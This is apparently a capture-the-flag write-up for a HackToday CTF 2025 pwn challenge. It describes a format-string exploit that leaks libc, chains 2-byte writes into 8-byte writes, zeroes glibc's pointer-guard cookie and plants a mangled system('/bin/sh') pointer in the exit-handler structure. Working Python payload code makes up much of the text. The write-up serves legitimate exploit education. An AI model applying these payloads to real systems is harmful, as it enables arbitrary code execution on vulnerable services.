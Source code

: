 
So, my idea here is to overwrite the printf return address to main while leaking libc. Then, for the second input, we can write 2 bytes, then return to main and combine them to get an 8-byte write. To ensure the input matches, simply look at the target address and calculate the offset.

![alt](../../../img/CTFNational/HackToday_CTF_2025/CalcOffset.png)

For this example i use write to libc.bss() -> 0.

```python
def write2bytes(target, value): 
    ru("0x") 
    stack = int(r(12),16) 
    ret = stack - 0x18 # Updating next ret 
    offset = 8 
    payload = f"%{0x7a}c%{offset+4}$hhn%{(u16(value) + 0xff86) & 0xffff}c%{offset+5}$hn".encode().ljust(0x20, b"\x00") + p64(ret) + p64(target) 
    sl(payload)

def write(target, value): 
    for i in range(0, len(value), 2): 
        write2bytes(target + i, value[i:i+2])
```

For the exploitation idea, I used the 6th technique in [WWW2Exec](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md#6---code-execution-via-other-mangled-pointers-in-initial-structure)

```python
write(cookie, p64(0))
write(libc.sym["initial"]+24, p64(libc.sym["system"] << 17) + p64(ns(libc, b"/bin/sh\0")))
```

Now just overwrite return address printf to exit. Here i use exit + 5 because of alignment problems.

```python
sl(fmtstr_payload(offset, writes={ret:libc.sym["exit"] + 5}, write_size='short'))
```
